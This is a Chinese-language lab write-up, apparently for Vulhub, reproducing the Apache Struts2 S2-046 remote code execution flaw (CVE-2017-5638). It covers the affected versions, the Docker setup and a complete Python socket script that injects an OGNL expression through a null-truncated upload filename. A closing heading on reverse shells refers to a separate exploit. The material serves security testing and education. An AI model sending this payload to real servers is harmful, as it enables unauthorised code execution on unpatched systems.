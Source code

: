 # Apache Struts2 S2-046 远程代码执行漏洞 CVE-2017-5638

## 漏洞描述

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-046
- https://xz.aliyun.com/t/221

## 漏洞影响

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub 执行以下命令启动 s2-046 测试环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到上传页面。

## 漏洞复现

与 s2-045 类似，但是输入点在文件上传的 filename 值位置，并需要使用 `\x00` 截断。

由于需要发送畸形数据包，我们简单使用原生 socket 编写 payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

`233*233` 已成功执行：

![image-20220302112052286](images/202203021120362.png)

### 反弹 shell

详情参考《Struts2 S2-045 远程代码执行漏洞 CVE-2017-5638》中的漏洞 EXP。
